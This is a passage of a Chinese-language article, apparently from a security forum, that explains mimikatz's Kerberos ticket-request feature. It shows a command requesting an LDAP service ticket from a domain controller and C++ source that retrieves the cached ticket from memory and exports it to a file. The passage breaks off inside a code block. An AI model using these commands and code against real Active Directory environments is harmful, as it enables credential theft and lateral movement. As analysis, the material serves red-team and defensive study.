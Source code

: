 至此，成功为当前用户申请到了新的服务票据，新票据将自动缓存在内存中。

以申请 DC01 上的 LDAP 服务的票据为例进行演示，其最终执行效果如下所示：

```php
mimikatz.exe "kerberos::ask /target:ldap/dc01.pentest.com" exit
```

![image-20230511154332299](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-d4e31c490cbac9387fa1b6efa63243f6238d91c1.png)

### Export Tickets to File

如果指定了 `/export` 选项，则将请求到的票据转储为文件。由于申请到的票据将自动缓存在内存中，因此需要重新调用一次 LsaCallKerberosPackage 函数，重内存中检索这个新票据。最后通过 kull\_m\_file\_writeData 函数将检索到的新票据写入文件，如下所示。

```cpp
if (isExport)
{
    pKerbRetrieveRequest->CacheOptions |= KERB_RETRIEVE_TICKET_AS_KERB_CRED;
    status = LsaCallKerberosPackage(pKerbRetrieveRequest, szData, (PVOID*)&pKerbRetrieveResponse, &szData, &packageStatus);
    if (NT_SUCCESS(status))
    {
        if (NT_SUCCESS(packageStatus))
        {
            if (kull_m_file_writeData(filename, pKerbRetrieveResponse->Ticket.EncodedTicket, pKerbRetrieveResponse->Ticket.EncodedTicketSize))
                kprintf(L"\n   * KiRBi to file     : %s", filename);
            else PRINT_ERROR_AUTO(L"kull_m_file_writeData");
            LsaFreeReturnBuffer(pKerbRetrieveResponse);
        }
        else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveEncodedTicketMessage / Package : %08x\n", packageStatus);
    }
    else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveEncodedTicketMessage : %08x\n", status);
}
```

这里为 CacheOptions 设置了 KERB\_RETRIEVE\_TICKET\_AS\_KERB\_CRED 标志，用于以 Kerberos 凭据（KERB\_CRED）的形式返回票证。返回的票据被保存在 pKerbRetrieveResponse 指向的内存中。

接着，对保存在 pKerbRetrieveResponse 中的票据调用 kull\_m\_file\_writeData 函数，该函数定义如下。

```cpp
BOOL kull_m_file_writeData(PCWCHAR fileName, LPCVOID data, DWORD lenght)
{
    BOOL reussite = FALSE;
    DWORD dwBytesWritten = 0, i;
    HANDLE hFile = NULL;
    LPWSTR base64;

    if(isBase64InterceptOutput)
    {
        if(CryptBinaryToString((const BYTE *) data, lenght, CRYPT_STRING_BASE64, NULL, &dwBytesWritten))
        {
            if(base64 = (LPWSTR) LocalAlloc(LPTR, dwBytesWritten * sizeof(wchar_t)))
            {
                if(reussite = CryptBinaryToString((const BYTE *) data, lenght, CRYPT_STRING_BASE64, base64, &dwBytesWritten))
                {
                    kprintf(L"\n====================\nBase64 of file : %s\n====================\n", fileName);
                    for(i = 0; i < dwBytesWritten; i++)
                        kprintf(L"%c", base64[i]);
                    kprintf(L"====================\n");
```